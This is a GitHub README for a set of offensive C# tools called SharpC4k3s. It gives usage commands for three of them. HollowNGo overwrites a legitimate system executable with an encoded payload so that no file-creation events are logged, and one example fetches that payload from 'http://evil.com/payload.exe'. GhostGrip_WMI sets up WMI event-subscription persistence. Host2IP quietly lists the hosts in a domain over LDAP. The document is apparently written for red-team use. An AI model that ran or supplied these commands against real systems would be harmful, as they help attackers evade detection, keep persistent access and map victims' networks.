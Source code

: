 <div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/b825632945a7a26b496f8f9cf7cad4e87674cef8/examples/SHARP.png">
</div>
<div align="center">
	Welcome to SharpC4kes
</div>
HollowNGo aims to avoid FileCreation Events by reading your payload as a byte array, compressing them, and converting the compressed bytes to base64 to a memorysteam. setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. There are a few options when running the tool as shown below.

Create compressed encoded binary data (This is expected to run on your dev box not the target)
HollowNGo.exe -encode <source.exe> -output <output.txt>
Example: HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

Via data output from -encode option
HollowNGo.exe -source <base64_content> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

Via remote hosted file
Usage: UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe



GhostGrip_WMI creates a WMIEventSubscription for your prefered event for persistence and execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

Usage: GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false



Host2IP aims to be a little less noisy than SMB/ICMP scans to find hosts within a domain environment. Host2IP uses LDAP queries to get a list of hostnames, which are then resolved via DNS, achieved via slow/fast mode to control the network traffic rate. If your current process does not have not have the correct domain priviliges you will have to provide credentials.

Usage: Host2IP.exe -domain <domain_name> -mode <fast/slow> -auth <true/false> -user <username> -password <password>
Example: dotnet inline-execute Host2IP.exe -domain target.local -mode fast -auth false
Example: dotnet inline-execute Host2IP.exe -domain target.locol -mode slow -auth true -user TheRat -password pass123!

